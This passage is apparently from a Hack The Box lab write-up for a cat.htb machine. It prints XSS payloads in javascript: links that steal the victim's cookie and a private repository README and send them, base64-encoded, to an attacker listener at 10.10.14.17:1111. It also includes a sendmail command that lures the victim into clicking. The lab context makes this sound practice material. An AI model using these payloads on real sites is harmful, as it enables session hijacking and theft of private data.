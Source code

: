 ```html
<a href="javascript:fetch('http://10.10.14.17:1111/?d='+encodeURIComponent(btoa(document.cookie)));">XSS test</a>
```

Also for sending mail use this ,

```bash
echo -e "Subject: Test Email\n\nHello, check repo http://localhost:3000/axel/l4tmur" | sendmail jobert@cat.htb
```

to confirm its working u can check the file size , it will rapidly change after excuting the command 

![](/assets/images/Pasted%20image%2020250203070144.png)

see , now we started getting requests 

![](/assets/images/Pasted%20image%2020250203065934.png)

But it didnt work as expected , but i got a callback so need to plan other idea 

Again , i went to read the second mail , i remember they talked about private repo..

I tried to read the README.md file by using this payload and it worked

```html
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.14.17:1111/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

![](/assets/images/Pasted%20image%2020250203063003.png)
